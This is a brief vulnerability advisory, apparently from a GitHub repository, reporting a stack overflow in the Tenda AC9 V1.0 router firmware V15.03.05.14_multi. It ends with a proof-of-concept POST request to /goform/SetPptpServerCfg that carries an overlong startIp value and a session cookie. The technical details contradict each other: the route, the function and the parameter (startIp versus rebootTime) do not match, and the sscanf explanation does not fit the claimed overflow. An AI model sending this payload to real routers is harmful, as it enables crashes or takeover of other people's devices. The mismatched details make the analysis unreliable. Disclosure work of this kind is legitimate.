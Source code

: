 # Tenda AC9 V1.0 V15.03.05.14_multi stack overflow vulnerability
## Affected Version
Tenda AC9 V1.0 V15.03.05.14_multi
## Vulnerability Description
In Tenda ac9 v1.0 routers with firmware version V15.03.05.14_multi, the startIp parameter of route /goform/SetSysAutoRebbotCfg has a stack overflow vulnerability, which can lead to remote arbitrary code execution.
## Vulnerability Detail
There is a stack overflow vulnerability in the formSetPPTPServer function in Tenda AC9 V1.0 firmware V15.03.05.14_multi.This function accepts the startIp parameter from a POST request by variable s.However, since the user has control over the input of startIp, and sscanf() simply parses the data in the format specified by format and stores it directly into the target variable，the statement "sscanf(s,"%d:%d",&v7,&v6);  " may leads to a buffer overflow.  The user-supplied rebootTime can exceed the capacity of the  v6  array, thus triggering this security vulnerability.

![img](./img/SetPptpServerCfg1.png)

![img](./img/SetPptpServerCfg2.png)

## Poc
```py
POST /goform/SetPptpServerCfg HTTP/1.1
Host: 192.168.0.1
Connection: keep-alive
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36
Cookie: password=452b97084f53fd461f33687a27a21f4dpxatgb

serverEn=0&startIp=10.0.0.1wwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwwww&endIp=10.0.0.200&mppe=0&mppeOp=128
```

